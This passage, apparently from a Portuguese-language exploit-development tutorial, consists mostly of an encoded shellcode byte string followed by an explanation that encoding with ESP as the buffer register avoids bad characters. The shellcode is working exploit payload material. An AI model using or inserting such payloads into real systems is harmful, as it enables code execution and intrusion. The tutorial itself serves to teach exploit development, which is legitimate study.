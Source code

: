 ```bash
shellcode += b"\x72\x6b\x4c\x4b\x56\x38\x77\x6c\x75\x51\x79"
shellcode += b"\x43\x4e\x6b\x45\x54\x6c\x4b\x46\x61\x5a\x70"
shellcode += b"\x4d\x59\x63\x74\x46\x44\x64\x64\x63\x6b\x61"
shellcode += b"\x4b\x70\x61\x72\x79\x73\x6a\x73\x61\x49\x6f"
shellcode += b"\x49\x70\x43\x6f\x53\x6f\x71\x4a\x4e\x6b\x34"
shellcode += b"\x52\x6a\x4b\x6e\x6d\x61\x4d\x71\x78\x76\x53"
shellcode += b"\x64\x72\x63\x30\x73\x30\x30\x68\x44\x37\x73"
shellcode += b"\x43\x66\x52\x61\x4f\x53\x64\x71\x78\x30\x4c"
shellcode += b"\x33\x47\x61\x36\x45\x57\x79\x6f\x6e\x35\x6c"
shellcode += b"\x78\x6a\x30\x36\x61\x53\x30\x75\x50\x75\x79"
shellcode += b"\x6a\x64\x53\x64\x30\x50\x71\x78\x67\x59\x6d"
shellcode += b"\x50\x32\x4b\x43\x30\x4b\x4f\x5a\x75\x36\x30"
shellcode += b"\x56\x30\x52\x70\x42\x70\x71\x50\x52\x70\x71"
shellcode += b"\x50\x62\x70\x52\x48\x5a\x4a\x64\x4f\x6b\x6f"
shellcode += b"\x4d\x30\x59\x6f\x49\x45\x7a\x37\x50\x6a\x56"
shellcode += b"\x65\x50\x68\x4b\x70\x4e\x48\x57\x71\x37\x61"
shellcode += b"\x75\x38\x57\x72\x37\x70\x71\x30\x69\x6b\x4c"
shellcode += b"\x49\x4d\x36\x63\x5a\x44\x50\x66\x36\x66\x37"
shellcode += b"\x70\x68\x6f\x69\x6c\x65\x64\x34\x43\x51\x59"
shellcode += b"\x6f\x68\x55\x4f\x75\x79\x50\x61\x64\x36\x6c"
shellcode += b"\x79\x6f\x30\x4e\x35\x58\x30\x75\x38\x6c\x75"
shellcode += b"\x38\x4a\x50\x58\x35\x6e\x42\x61\x46\x49\x6f"
shellcode += b"\x48\x55\x42\x48\x62\x43\x32\x4d\x63\x54\x65"
shellcode += b"\x50\x4d\x59\x69\x73\x56\x37\x33\x67\x53\x67"
shellcode += b"\x34\x71\x68\x76\x71\x7a\x47\x62\x42\x79\x61"
shellcode += b"\x46\x49\x72\x59\x6d\x51\x76\x38\x47\x57\x34"
shellcode += b"\x56\x44\x35\x6c\x37\x71\x65\x51\x6e\x6d\x53"
shellcode += b"\x74\x65\x74\x44\x50\x6f\x36\x45\x50\x31\x54"
shellcode += b"\x31\x44\x76\x30\x30\x56\x63\x66\x56\x36\x42"
shellcode += b"\x66\x46\x36\x32\x6e\x32\x76\x72\x76\x71\x43"
shellcode += b"\x32\x76\x31\x78\x71\x69\x4a\x6c\x77\x4f\x4b"
shellcode += b"\x36\x49\x6f\x58\x55\x6d\x59\x39\x70\x42\x6e"
shellcode += b"\x52\x76\x47\x36\x49\x6f\x30\x30\x42\x48\x37"
shellcode += b"\x78\x6b\x37\x37\x6d\x71\x70\x79\x6f\x78\x55"
shellcode += b"\x4f\x4b\x6b\x50\x67\x6d\x56\x4a\x77\x7a\x75"
shellcode += b"\x38\x49\x36\x4c\x55\x6f\x4d\x6d\x4d\x49\x6f"
shellcode += b"\x6a\x75\x37\x4c\x34\x46\x53\x4c\x35\x5a\x4d"
shellcode += b"\x50\x49\x6b\x4b\x50\x53\x45\x53\x35\x6d\x6b"
shellcode += b"\x67\x37\x42\x33\x30\x72\x72\x4f\x63\x5a\x55"
shellcode += b"\x50\x53\x63\x6b\x4f\x6b\x65\x41\x41"

```

Nosso shellcode ficou consideravelmente maior devido ao encode, mas temos espaço de sobra.

Note também que utilizei a opção `“bufferregister=esp”`, isso por que sem esta opção, o shellcode se inicia com os opcodes “\x89\xe2\xdb\xdb\xd9\x72”. Estes opcodes são necessários para encontrar a posição absoluta do shellcode na memória.

Como nós já sabemos que nosso shellcode estará em ESP, podemos apontá-lo na criação do shellcode, evitando os badchars.
